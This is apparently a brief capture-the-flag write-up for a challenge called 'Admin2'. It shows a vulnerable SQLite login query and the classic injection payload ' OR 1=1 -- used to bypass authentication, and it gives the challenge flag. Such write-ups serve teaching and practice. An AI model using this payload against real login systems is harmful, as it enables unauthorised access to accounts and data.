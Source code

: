 # Admin2

### Problem 

This seems like a standard SQL injection challenge. 

### Solution

First let's determine what kind of injection we are looking at. We can insert a simple `'` character and watch the server crash. 

Looking through the error message given, we can see that it is an SQLite database with the following query command: 
```sql
SELECT * FROM users WHERE username='{username}' AND password='{password}'
```

We can construct a very basic payload: `' OR 1=1 --`, which yields the following query: 
```sql
SELECT * FROM users WHERE username='' OR 1=1 --' AND password='{password}'
```
or in other words: 
```sql
SELECT * FROM users
```

Our flag is then `flag{second_admin}`